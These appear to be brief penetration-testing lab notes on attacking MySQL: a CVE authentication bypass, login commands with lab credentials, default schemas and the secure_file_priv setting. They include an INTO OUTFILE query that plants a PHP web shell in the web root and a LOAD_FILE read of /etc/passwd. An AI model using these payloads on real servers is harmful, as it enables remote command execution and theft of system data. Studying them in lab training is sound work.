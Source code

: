#mysql
[Different Authentication methods](https://dev.mysql.com/doc/dev/mysql-server/latest/)
### MySQL 5.6.x
[CVE-2012-2122](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/vulnerability/2383/mysql-database-authentication-bypass)
Auth By pass
### Read / Change the Database 
```shell
mysql -u julio -pPassword123 -h 10.129.20.13
```

```shell
mssqlclient.py -p 3306 julio@10.129.203.7 
```

### MySQL default system schemas/databases:

- `mysql` - is the system database that contains tables that store information required by the MySQL server
- `information_schema` - provides access to database metadata
- `performance_schema` - is a feature for monitoring MySQL Server execution at a low level
- `sys` - a set of objects that helps DBAs and developers interpret data collected by the Performance Schema

### [Secure_file_priv](https://dev.mysql.com/doc/refman/5.7/en/server-system-variables.html#sysvar_secure_file_priv)
Limits effect of data import and export 

`secure_file_priv` may be set as follows:

- If empty, the variable has no effect, which is not a secure setting.
- If set to
- the name of a directory, the server limits import and export operations to work only with files in that directory. The directory must exist; the server does not create it.
- If set to NULL, the server disables import and export operations.

```mysql
show variables like "secure_file_priv";
```
### Write Local Files
```shell
SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
webshell.php?c=dir to use commands
### Read  Files
```mysql
select LOAD_FILE("/etc/passwd");
```

